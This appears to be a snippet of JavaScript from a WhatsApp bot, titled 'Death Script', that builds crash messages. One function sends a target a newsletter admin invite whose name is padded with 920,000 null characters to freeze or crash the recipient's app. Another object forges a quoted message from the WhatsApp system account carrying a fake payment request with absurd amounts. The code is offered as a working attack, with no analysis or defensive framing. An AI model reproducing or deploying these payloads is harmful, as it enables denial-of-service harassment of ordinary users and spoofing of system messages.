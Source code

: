 		async function NewsletterZap(LockJids) {
			var messageContent = generateWAMessageFromContent(LockJids, proto.Message.fromObject({
				'viewOnceMessage': {
					'message': {
						"newsletterAdminInviteMessage": {
							"newsletterJid": `120363298524333143@newsletter`,
							"newsletterName": "Death Script" + "\u0000".repeat(920000),
							"jpegThumbnail": "",
							"caption": `Undangan Admin Channel Death Script`,
							"inviteExpiration": Date.now() + 1814400000
						}
					}
				}
			}), {
				'userJid': LockJids
			});
			await zyn.relayMessage(LockJids, messageContent.message, {
				'participant': {
					'jid': LockJids
				},
				'messageId': messageContent.key.id
			});
		}

		const Porke = {
			key: {
				participant: `0@s.whatsapp.net`,
				...(m.chat ? {
					remoteJid: "status@broadcast"
				} : {})
			},
			'message': {
				"interactiveMessage": {
					"header": {
						"hasMediaAttachment": true,
						"jpegThumbnail": fs.readFileSync(`./database/image/zkosong.png`)
					},
					"nativeFlowMessage": {
						"buttons": [{
							"name": "review_and_pay",
							"buttonParamsJson": `{\"currency\":\"IDR\",\"total_amount\":{\"value\":49981399788,\"offset\":100},\"reference_id\":\"4OON4PX3FFJ\",\"type\":\"physical-goods\",\"order\":{\"status\":\"payment_requested\",\"subtotal\":{\"value\":49069994400,\"offset\":100},\"tax\":{\"value\":490699944,\"offset\":100},\"discount\":{\"value\":485792999999,\"offset\":100},\"shipping\":{\"value\":48999999900,\"offset\":100},\"order_type\":\"ORDER\",\"items\":[{\"retailer_id\":\"7842674605763435\",\"product_id\":\"7842674605763435\",\"name\":\"️࿆᷍🩸⃟༑⌁⃰𝐃𝐞𝐚𝐭𝐡 𝑪͢𝒓𝒂ͯ͢𝒔𝒉 𝐈𝐧͢𝐟𝐢ͮ𝐧͢𝐢𝐭𝐲͜͡⃟╮\",\"amount\":{\"value\":9999900,\"offset\":100},\"quantity\":7},{\"retailer_id\":\"custom-item-f22115f9-478a-487e-92c1-8e7b4bf16de8\",\"name\":\"\",\"amount\":{\"value\":999999900,\"offset\":100},\"quantity\":49}]},\"native_payment_methods\":[]}`
						}]
					}
				}
			}
		}
